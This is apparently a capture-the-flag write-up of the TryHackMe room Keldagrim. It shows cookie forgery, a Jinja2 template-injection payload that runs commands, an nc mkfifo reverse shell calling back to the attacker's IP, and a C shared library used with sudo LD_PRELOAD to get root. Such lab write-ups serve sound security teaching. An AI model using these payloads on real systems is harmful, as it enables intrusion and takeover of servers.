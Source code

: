 ```yaml
---
title: "TryHackMe - Keldagrim"
author: Nasrallah
description: ""
date: 2023-01-05 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, medium, LD_PRELOAD, ssti, sudo]
img_path: /assets/img/tryhackme/keldagrim
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Keldagrim](https://tryhackme.com/room/keldagrim) from [TryHackMe](https://tryhackme.com).

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.46.185
Host is up (0.11s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d8:23:24:3c:6e:3f:5b:b0:ec:42:e4:ce:71:2f:1e:52 (RSA)
|   256 c6:75:e5:10:b4:0a:51:83:3e:55:b4:f6:03:b5:0b:7a (ECDSA)
|_  256 4c:51:80:db:31:4c:6a:be:bf:9b:48:b5:d4:d6:ff:7c (ED25519)
80/tcp open  http    Werkzeug httpd 1.0.1 (Python 3.6.9)
|_http-title:  Home page 
| http-cookie-flags: 
|   /: 
|     session: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

There are two open ports, 22 running OpenSSH and 80 running Werkzeug http webserver with python.

## Web

Let's navigate to the web server.

![](1.png)

This is a gold selling website for video games.

The `buy gold` tab on the website has an interesting page.

![](2.png)

Let's check the admin page.

![](3.png)

Not very different from the first page, maybe we need to have permission to view the page.

Let's check if there are any cookies.

![](4.png)

We found a cookie called `session` with a value that looks like a base64. Let's decode it.

![](5.png)

It's a base64 encoding of `guest`.

Let's try changing `session` value to admin.

![](6.png)

We base64 encode `admin` and change to cookie's value and refresh the admin page.

![](7.png)

We got a different page this time, on the page we see current user with $2,165.

Let's check the the cookies again.

![](8.png)

There is another cookie now called `sales` with once again a base64 encoded string. Let's decode it.

![](9.png)

It's the same amount of money we saw on the admin page.

Let's change it to see if the website returns what's on the cookie.

![](10.png)

We replace the value of `sales` with the new one and refresh the page.

![](11.png)

It did.


# **Foothold**

Since this website uses python, i tried to do a server side template injection.

With the help of [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2), let's see if the site is vulnerable to SSTI.

![](12.png)

The payload we'll be using for testing is `\{\{7*'7'\}\}` , let's base64 encode it.

![](13.png)

Now we put as `sales` value and refresh the page, if we got 7777777 back the website is vulnerable.

![](14.png)

We confirmed the site is vulnerable, now let's search for some remote code execution [payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#exploit-the-ssti-by-calling-ospopenread).

![](15.png)

Let's use the following payload.

```python
\{\{ self.\_TemplateReference\_\_context.cycler.\_\_init\_\_.\_\_globals\_\_.os.popen('id').read() \}\}
```

![](16.png)

Let's relace the new cookie with the new one and refresh the page.

![](17.png)

Great! We got rce.

Now let's get a reverse shell with the help of [revshell.com](https://www.revshells.com/).

![](18.png)

Will be using nc mkfifo payload.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.11.14.124 9001 >/tmp/f
```

Let's add this the the first rce payload.

```python
\{\{ self.\_TemplateReference\_\_context.cycler.\_\_init\_\_.\_\_globals\_\_.os.popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.11.14.124 9001 >/tmp/f').read() \}\}
```
Let's base64 encode the payload, change the cookie value, setup a listener and then refresh the page.

![](19.png)

We got the reverse shell and used python pty to stabilize it.


# **Privilege Escalation**

Let's check out current privileges.

![](20.png)

We can run /bin/ps as root, but we also see that LD_PRELOAD is added to env_keep, this mean that we can specify a shared library to run before the program is executed.

To exploit this, we need to write the following c program.

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}

```

We save the code above in a file with the extension `.c` at the end; `exp.c` for example.

now we need to compile it using the following command:

```bash
gcc exploit.c -o exploit -fPIC -shared -nostartfiles -w
```

Now we execute `ps` as root and specify the `exploit` as the library we want to run before the program.

```bash
sudo LD_PRELOAD=/home/jed/exploit /bin/ps
```

![](21.png)

Congratulations, we got root.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

# References

